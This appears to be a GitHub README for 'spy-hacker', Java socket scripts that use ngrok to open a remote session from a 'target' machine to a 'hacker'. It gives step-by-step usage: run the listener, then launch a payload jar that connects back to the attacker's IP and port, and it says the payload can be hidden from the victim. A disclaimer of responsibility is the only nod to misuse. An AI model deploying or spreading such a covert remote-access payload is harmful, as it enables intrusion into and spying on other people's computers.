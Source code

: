 # spy-hacker
scripts based on the socket to open a session between the target and the hacker over the internet using ngrok tools

- Note :i am not responsible for any bad use of these scripts
1) You need JRE(java runtime environment)
- to launch the scripts
1)  first runs java server script using this command : java SpyHacker
2)  type the local port and waiting the connection of the client
3)  to launch the payload you should pass the ip and number port as an input parameter
4)  type this command to lunch the payload : java -jar payload.jar 192.168.1.1 8080 (as an example for ip address and port number)
5) you can hide the payload (see the video below)


